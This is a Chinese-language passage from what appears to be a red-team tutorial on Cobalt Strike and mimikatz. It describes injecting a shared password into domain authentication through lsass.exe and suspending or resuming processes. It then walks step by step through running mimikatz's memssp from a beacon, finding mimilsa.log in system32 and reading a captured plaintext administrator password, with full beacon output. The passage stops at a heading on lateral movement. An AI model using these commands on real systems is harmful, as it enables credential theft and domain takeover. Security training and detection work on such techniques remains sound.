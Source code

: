 该命令仅限域内使用。该命令会给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用,其原理是对 lsass.exe 进行注入，重启后会失效。

process::suspend [pid]

挂起某个进程，但是不结束它

process::resume [pid]

恢复挂起的进程

以上的这些只是mimikatz能做事情的一小部分，下面看看!misc::memssp的使用。

mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
详细运行过程：

首先运行mimikatz !misc::memssp

beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
接下来来到C:\Windows\system32目录

beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes

beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84

 C:\Windows\system32 的目录

2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
可以看到是存在mimilsa.log文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。

查看mimilsa.log文件内容。

beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \	
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator	Password123!
成功获取到当前登录用户的明文密码。

0x06 横向扩展 #
1、Windows 企业局域网环境介绍 #
活动目录
